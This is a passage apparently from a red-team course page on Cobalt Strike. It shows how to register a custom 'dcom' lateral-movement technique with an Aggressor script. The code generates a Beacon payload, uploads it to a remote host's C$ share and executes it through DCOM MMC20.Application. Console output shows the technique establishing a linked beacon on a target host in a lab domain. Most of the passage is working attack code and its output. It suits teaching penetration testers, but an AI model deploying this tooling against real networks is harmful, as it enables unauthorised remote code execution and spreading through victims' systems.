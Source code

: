 As with the `elevate` command, Aggressor can be used to register new techniques under `jump` and `remote-exec` using [beacon_remote_exploit_register](https://hstechdocs.helpsystems.com/manuals/cobaltstrike/current/userguide/content/topics_aggressor-scripts/as-resources_functions.htm#beacon_remote_exploit_register) and [beacon_remote_exec_method_register](https://hstechdocs.helpsystems.com/manuals/cobaltstrike/current/userguide/content/topics_aggressor-scripts/as-resources_functions.htm#beacon_remote_exec_method_register) respectively.

Let's integrate Invoke-DCOM.ps1 into `jump`.

```
sub invoke_dcom
{
    local('$handle $script $oneliner $payload');

    # acknowledge this command1
    btask($1, "Tasked Beacon to run " . listener_describe($3) . " on $2 via DCOM", "T1021");

    # read in the script
    $handle = openf(getFileProper("C:\\Tools", "Invoke-DCOM.ps1"));
    $script = readb($handle, -1);
    closef($handle);

    # host the script in Beacon
    $oneliner = beacon_host_script($1, $script);

    # generate stageless payload
    $payload = artifact_payload($3, "exe", "x64");

    # upload to the target
    bupload_raw($1, "\\\\ $+ $2 $+ \\C$\\Windows\\Temp\\beacon.exe", $payload);

    # run via this powerpick
    bpowerpick!($1, "Invoke-DCOM -ComputerName $+ $2 $+ -Method MMC20.Application -Command C:\\Windows\\Temp\\beacon.exe", $oneliner);

    # link if p2p beacon
    beacon_link($1, $2, $3);
}

beacon_remote_exploit_register("dcom", "x64", "Use DCOM to run a Beacon payload", &invoke_dcom);
```

>  `$+` concatenates an interpolated string with another value and can require additional whitespaces on each end.

  
```
beacon> jump

Beacon Remote Exploits
======================

    Exploit                   Arch  Description
    -------                   ----  -----------
    dcom                      x64   Use DCOM to run a Beacon payload
    psexec                    x86   Use a service to run a Service EXE artifact
    psexec64                  x64   Use a service to run a Service EXE artifact
    psexec_psh                x86   Use a service to run a PowerShell one-liner
    winrm                     x86   Run a PowerShell script via WinRM
    winrm64                   x64   Run a PowerShell script via WinRM

beacon> getuid
[*] Tasked beacon to get userid
[*] You are DEV\bfarmer

beacon> jump dcom srv-1 smb
[*] Tasked Beacon to run windows/beacon_bind_pipe (\\.\pipe\msagent_a3) on srv-1 via DCOM
[+] established link to child beacon: 10.10.17.25
[+] received output:
Completed
```